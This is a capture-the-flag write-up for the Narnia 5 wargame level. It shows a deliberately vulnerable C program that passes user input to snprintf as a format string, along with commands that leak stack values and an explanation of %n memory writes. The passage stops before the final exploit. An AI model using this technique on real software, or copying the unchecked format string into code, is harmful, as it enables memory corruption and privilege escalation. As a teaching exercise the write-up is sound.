 ### Source Code

Here is the source code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
```

The issue here is the *snprintf()* function, as you can see there are no format specifiers. It means that we have a potential **format string** vulnerability here. Let's try to enter some format specifiers in our input :

```bash
./narnia5 %x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc5000.30303035.3330332e] (26)
i = 1 (0xffffd6d0)
```

Ok, it's definitly a format string vulnerability. With this kind of issue, we can write where we want in memory as long as we know where. Luckily, the program gives us the address of **i**.

Now, to write something on the stack we'll use the **%n** specifier. Basically, **%n** write the size of our input at the address pointed by *%n*. For example, the following input : **AAAA%n**, means that we will write the value **4** (because the size of “AAAA” equals 4 bytes) at the address pointed by %n. But, where on the stack **%n** points to ?

Well, let's say we want to write **4** at **AAAA** (`0x41414141`), we need to find the position of **AAAA** on the stack. To do that we'll just enter the address followed by some **%x** specifiers :

```bash
narnia5@narnia:/narnia$ ./narnia5 AAAA%08x.%08x.%08x.%08x.%08x.%08x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA41414141.31343134.31343134.3331332e.33313334.31332e34] (57)
i = 1 (0xffffd6b0)
```
